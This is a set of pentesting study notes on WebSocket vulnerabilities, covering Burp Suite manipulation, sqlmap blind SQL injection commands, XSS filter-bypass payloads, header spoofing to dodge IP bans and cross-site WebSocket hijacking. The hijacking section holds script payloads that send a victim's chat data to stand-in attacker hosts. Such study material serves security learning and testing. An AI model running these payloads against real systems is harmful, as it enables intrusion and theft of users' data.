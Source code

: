 # WebSocket

WebSockets are widely used in modern web applications. They are initiated over HTTP and provide long-lived connections with asynchronous communication in both directions.

Virtually any web security vulnerability that arises with regular HTTP can also arise in relation to WebSockets communications.

{% code overflow="wrap" fullWidth="true" %}
```sh
https://exploit-notes.hdks.org/exploit/web/websocket-pentesting/#cross-site-websocket-hijacking
# Blind SQLi
12 or substring(version(),1,1)=8
# and check WebSockets history on Burp. Note there the URL and modify target , adapt the script by intercepting Burp Websocket request (modify ws://$IP/$PATH and the parameter which might not be id); then
sqlmap -u ... --dbs # do not use batch, try to reduce the requests manually or the service might crash
# Alternative: 
sqlmap -u "ws://..." --data "{'id':...}" --level 5 --risk 3 --batch --threads 10 # Threads are safe to do in a boolean injection, not for time-based injections
```
{% endcode %}

## Manipulating WebSocket traffic

{% code overflow="wrap" fullWidth="true" %}
```sh
You can use Burp Suite to: 
    •  Intercept and modify WebSocket messages.
    •  Replay and generate new WebSocket messages.
    •  Manipulate WebSocket connections.

######################### Intercepting and modifying WebSocket messages
    • Open Burp browser.    
    • Browse to the application function that uses WebSockets. You can determine that WebSockets are being used 
    by using the application and looking for entries appearing in the WebSockets history tab within Burp Proxy.    
    • In the Intercept tab of Burp Proxy, ensure that interception is turned on.    
    • When a WebSocket message is sent from the browser or server, it will be displayed in the Intercept tab.
    
######################### Replaying and generating new WebSocket messages
    • Burp Proxy, select a message in the WebSockets history, or in the Intercept tab, and choose "Send to Repeater".
    • In Burp Repeater, you can now edit the message that was selected, and send it over and over.    
    • You can enter a new message and send it in either direction, to the client or server.    
    • In the "History" panel within Burp Repeater, you can view the history of messages that have been transmitted.
    • If you want to edit and resend any message in the history panel > select message > "Edit and resend"

########################## Manipulating WebSocket connections
 There are various situations in which manipulating the WebSocket handshake might be necessary:
    • It can enable you to reach more attack surface.
    • Some attacks might cause your connection to drop so you need to establish a new one.
    • Tokens or other data in the original handshake request might be stale and need updating.
You can manipulate the WebSocket handshake using Burp Repeater:
    • Send a WebSocket message to Burp Repeater as already described.
    • In Burp Repeater > pencil icon next to the WebSocket URL. This opens a wizard that lets you 
    attach to an existing connected WebSocket, clone a connected WebSocket, or reconnect to a disconnected WebSocket.
    • If you choose to clone a connected WebSocket or reconnect to a disconnected WebSocket, then the wizard will show
    full details of the WebSocket handshake request, which you can edit as required before the handshake is performed.
    • When you click "Connect", Burp will attempt to carry out the configured handshake and display the result. 
    If a new WebSocket connection was successfully established, you can then use this to send new messages in Repeater.
```
{% endcode %}

## WebSockets security vulnerabilities

Practically any web security vulnerability might arise in relation to WebSockets:

• SQLi, XXE, blind vulns detectable by OAST techniques, XSS, other client-side vulns...

## Manipulating WebSocket messages to exploit vulnerabilities

{% code overflow="wrap" fullWidth="true" %}
```sh
# suppose a chat application uses WebSockets to send chat messages between the browser and the server
{"message":"Hello Carlos"}
# Message is transmitted (again via WebSockets) to another chat user, and rendered in the user's browser as follows: 
<td>Hello Carlos</td>
# an attacker can perform a proof-of-concept XSS attack by submitting the following WebSocket message: 
{"message":"<img src=1 onerror='alert(1)'>"}
```
{% endcode %}

## Manipulating the WebSocket handshake to exploit vulnerabilities

• Misplaced trust in HTTP headers to perform security decisions, such as the `X-Forwarded-For` header.

• Flaws in session handling mechanisms, since the session context in which WebSocket messages are processed is generally determined by the session context of the handshake message.

• Attack surface introduced by custom HTTP headers used by the application.

```sh
# EXAMPLE: Manipulating the WebSocket handshake to exploit vulnerabilities
X-Forwarded-For: 127.0.0.20 # in case IP gets blacklisted
# To bypass XSS protections:
{"message":"<img src=1 oNeRrOr=alert`1`>"}
{"message":"<iframe src='jAvAsCripT:alert`1`'></iframe>"}
```

## Using cross-site WebSockets to exploit vulnerabilities

Some WebSockets security vulnerabilities arise when an attacker makes a cross-domain WebSocket connection from a web site that the attacker controls. This is known as a cross-site WebSocket hijacking attack, and it involves exploiting CSRF on a WebSocket handshake.

### What is cross-site WebSocket hijacking?

Cross-site WebSocket hijacking involves a CSRF on a WebSocket handshake. It arises when the WebSocket handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens or other unpredictable values.

An attacker can create a malicious web page on their own domain which establishes a cross-site WebSocket connection to the vulnerable application. The application will handle the connection in the context of the victim user's session with the application.

### What is the impact of cross-site WebSocket hijacking?

* **Perform unauthorized actions masquerading as the victim user.**
* **Retrieve sensitive data that the user can access.** Unlike with regular CSRF, cross-site WebSocket hijacking gives the attacker two-way interaction with the vulnerable application over the hijacked WebSocket. If the application uses server-generated WebSocket messages to return any sensitive data to the user, then the attacker can intercept those messages and capture the victim user's data.

### Performing a cross-site WebSocket hijacking attack

{% code overflow="wrap" fullWidth="true" %}
```sh
https://gist.github.com/Shapa7276/adfec9bbfcd71bef73c2ec234df9837d

- Review the WebSocket handshakes that the app carries out and determine whether they are protected against CSRF. 
- Find a handshake message that relies solely on HTTP cookies for session handling and does not employ tokens
or other unpredictable values in request parameters. 
# The following WebSocket handshake request is probably vulnerable to CSRF -> only session token transmitted in cookie
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
# NOTE: The Sec-WebSocket-Key header contains a random value to prevent errors from caching proxies, 
# and is not used for authentication or session handling purposes. 

 The attack might involve:
    Sending WebSocket messages to perform unauthorized actions on behalf of the victim user.
    Sending WebSocket messages to retrieve sensitive data.
    Sometimes, just waiting for incoming messages to arrive containing sensitive data.

# EXAMPLE: Cross-site WebSocket hijacking (CSWH)
- Check the chat shows all the chat history every time, there is a cookie for that w/ SameSite=None
- Check WebSockets history to see it sends a "READY" message to retrieve chat history
<script>
    var ws = new WebSocket('wss://your-websocket-url/endpoint');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) { 
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
<script>
    var ws = new WebSocket('wss://your-websocket-url/endpoint');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) { 
        fetch('https://exploit-server.net/message?' + event.data);
    };
</script>
# Another option is btoa(event.data) to get base64 encoding of that data
```
{% endcode %}

## How to secure a WebSocket connection

* Use the `wss://` protocol (WebSockets over TLS).
* Hard code the URL of the WebSockets endpoint, and certainly don't incorporate user-controllable data into this URL.
* Protect the WebSocket handshake message against CSRF, to avoid cross-site WebSockets hijacking vulnerabilities.
* Treat data received via the WebSocket as untrusted in both directions. Handle data safely on both the server and client ends, to prevent input-based vulnerabilities (SQL, XSS...).
